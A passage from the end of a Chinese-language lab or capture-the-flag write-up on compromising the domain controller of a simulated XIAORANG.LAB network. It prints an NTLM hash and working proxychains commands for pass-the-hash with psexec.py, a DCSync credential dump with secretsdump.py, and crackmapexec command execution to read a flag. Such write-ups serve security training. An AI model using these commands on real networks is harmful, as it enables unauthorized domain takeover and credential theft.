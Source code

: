 ```plain
1103    XIAORANG-WIN7$  507797b66f76b8b71d20555b0c59f86d        4096
```

[![](assets/1710899037-d586f68d4c7123827063b2df5f321652.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205407-4b19dcca-d56f-1.png)

最后 `hash传递`获取域控

```plain
proxychains psexec.py -dc-ip 172.22.1.2 -hashes :10cf89a850fb1cdbe6bb432b859164c8 XIAORANG.LAB/administrator@172.22.1.2
# 拓展 对 XIAORANG-WIN7$的凭证进行 dcsync
proxychains secretsdump.py XIAORANG-WIN7\$@172.22.1.2 -just-dc-user administrator -hashes :d4df8a3fa73a9fee14a62123784290c6
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```

[![](assets/1710899037-4d5eece374d0d82c1041b263deab00be.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205411-4d95eb10-d56f-1.png)

最终拼接获取完整 flag，提交拿下靶标。

总：前前后后笔者也是陆续弄了几天，记录了模拟实战内网靶标的总结笔记，对内网知识有兴趣的伙伴可自行去复现一波。安全无止境，永远在路上。结，如若有误请联系笔者，大佬勿喷。

